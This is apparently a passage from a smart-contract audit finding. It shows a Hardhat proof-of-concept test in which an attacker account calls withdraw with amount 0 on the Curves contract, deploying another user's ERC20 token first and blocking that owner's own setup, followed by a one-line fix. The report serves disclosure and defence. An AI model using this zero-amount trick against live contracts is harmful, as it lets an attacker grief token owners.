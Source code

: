 ```solidity

    curvesTokenBalance[curvesTokenSubject][from] = curvesTokenBalance[curvesTokenSubject][from] - amount;
    curvesTokenBalance[curvesTokenSubject][to] = curvesTokenBalance[curvesTokenSubject][to] + amount;

    emit Transfer(curvesTokenSubject, from, to, amount);
}
```

This is PoC. Add it under the "Curves ERC20 test" describe in curves-erc20.ts and run it. Use `yarn hardhat test --grep "PoC withdraw with amount 0 and deploy"`. 

```jsx
it("PoC withdraw with amount 0 and deploy", async () => {
  const attacker = addrs[addrs.length -1];

  let tx = testContract.connect(attacker).withdraw(owner.address, 0);
  await expect(tx).to.emit(testContract, "TokenDeployed");

  const keyTokenAddress = (await testContract.externalCurvesTokens(owner.address)).token;
  const keyToken = ERC20__factory.connect(keyTokenAddress, owner);

  expect(await keyToken.name()).to.equal("Curves 1");
  expect(await keyToken.symbol()).to.equal("CURVES1");
  expect(await keyToken.totalSupply()).to.equal(0);

  // owner fail to set/deploy erc20
  tx = testContract.connect(owner).buyCurvesTokenWithName(owner.address, 1, "TestERC20", "TEST");
  expect(tx).to.be.revertedWith("ERC20TokenAlreadyMinted()");

  tx = testContract.connect(owner).mint(owner.address);
  expect(tx).to.be.revertedWith("ERC20TokenAlreadyMinted()");

  tx = testContract.connect(owner).setNameAndSymbol(owner.address, "TestERC20", "TEST");
  expect(tx).to.be.revertedWith("ERC20TokenAlreadyMinted()");
});
```

## Tools Used

Manual Review

## Recommended Mitigation Steps

Prevent withdrawal with amount 0. By blocking it in `_transfer`, other issues using amount 0 can also be prevented.

```diff
function _transfer(address curvesTokenSubject, address from, address to, uint256 amount) internal {
-   if (amount > curvesTokenBalance[curvesTokenSubject][from]) revert InsufficientBalance();
+   if (amount > curvesTokenBalance[curvesTokenSubject][from] || amount == 0) revert InsufficientBalance();

    // If transferring from oneself, skip adding to the list
    if (from != to) {
        _addOwnedCurvesTokenSubject(to, curvesTokenSubject);
    }

    curvesTokenBalance[curvesTokenSubject][from] = curvesTokenBalance[curvesTokenSubject][from] - amount;
    curvesTokenBalance[curvesTokenSubject][to] = curvesTokenBalance[curvesTokenSubject][to] + amount;

```